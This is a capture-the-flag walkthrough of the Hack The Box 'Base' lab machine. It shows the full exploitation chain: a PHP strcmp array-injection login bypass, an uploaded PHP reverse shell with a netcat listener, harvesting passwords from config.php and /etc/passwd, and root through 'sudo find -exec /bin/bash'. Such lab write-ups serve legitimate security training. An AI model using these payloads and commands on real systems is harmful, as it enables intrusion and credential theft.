

Hack The Box :: Starting Point :: Base :: Linux

# Enumeration

We begin by running an Nmap scan.
`nmap -A -v 10.10.10.48`
The scan reveals that ports 22 (SSH) and 80 (Apache) are open.

[nmap.webp](../_resources/1862f6a04dd03d94a9d29e6a9549bb27.webp)

Let's check out the website.

GoBuster is used to scan for files and folders.
`gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirb/big.txt`
It dsicovers two interesting folders, `_uploaded` and `login`.

[gobuster.webp](../_resources/c59bb4708fdeae2d63bc15dfee6721c3.webp)

The login page is located at `/login/login.php`.
[login.webp](../_resources/7ee55a7ab678fa706f3af2e3d6c5e118.webp)

The login folder is found to be listable due to a misconfiguration.

# Foothold

In the login folder, a file named `login.php.swp` is found. It's not uncommon for files to be edited in place on a web server. Editors such as Nano and Vim create temporary files if not closed gracefully. We can download the .swp file and view the source code for `login.php` using the **strings** command.

`strings login.php.swp`
The command returns the following code.

	if (!empty($_POST['username']) && !empty($_POST['password'])) {
	    require('config.php');
	    if (strcmp($username, $_POST['username']) == 0) {
	        if (strcmp($password, $_POST['password']) == 0) {
	            $_SESSION['user_id'] = 1;
	            header("Location: ../upload.php");
	        } else {
	            print("");
	        }
	    } else {
	        print("");
	    }
	}

The above code checks the username/password combination that the user inputs, against the variables that are stored in `config.php` to see if they match. The following lines are interesting.

	if (strcmp($password, $_POST['password']) == 0) {
	  if (strcmp($username , $_POST['username']) == 0) {

The developer is using **strcmp** to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will return null. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to `0`. The correct way to write this would be with the `===` operator which checks both value and type. Let's open burp and catch the login request.

	POST /login/login.php HTTP/1.1
	Host: 10.10.10.48
	User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://10.10.10.48/login/login.php
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 29
	Origin: http://10.10.10.48
	DNT: 1
	Connection: close
	Cookie: PHPSESSID=0731pqk8tslq6ekg167ttbjlj7
	Upgrade-Insecure-Requests: 1

	username=admin&password=admin

Change the POST data as follows to bypass the login.
`username[]=admin&password[]=admin`

This converts the variables to arrays and bypasses strcmp. Once logged in, we see there is additional functionality to upload files.

Let's try to upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and executed it from the browser. Modify the shell and change the local IP to your own. Upload it and start a netcat listener.

`nc -lvp 1234`

The file is accessible from the **_uploaded** folder, which was discovered earlier. The URL will be http://10.10.10.48/_uploaded/rev.php .

[shell.webp](../_resources/753741fb6f4673056a7447cf5af58696.webp)

# Lateral Movement

A basic enumeration check is to search the file system for database passwords. Let's read the config.php in `/var/www/html/login`.

`cat /var/www/html/login/config.php`
The configuration file contains the following password.

	<?php
	$username = "admin";
	$password = "thisisagoodpassword";$

We can also read `/etc/passwd` to find the username `john`. The password can be used to login `john`. Let's upgrade to a pty shell and su to that user.

	python -c 'import pty; pty.spawn("/bin/bash")'
	su john
	Password: thisisagoodpassword

The user flag is located in `/home/john`.

# Privilege Escalation

Since we have the users password let's see if we can run any commands using sudo.

`sudo -l`
It seems that we can run **find** as sudo.
[sudo.webp](../_resources/3f898a6689bed2fa24078668bfa5ab59.webp)

This binary can be used to execute commands as. It searches for files in the root folder of the system and executes the bash shell as root.

`sudo /usr/bin/find /etc -exec /bin/bash \;`
The root flag can be found in `/root`.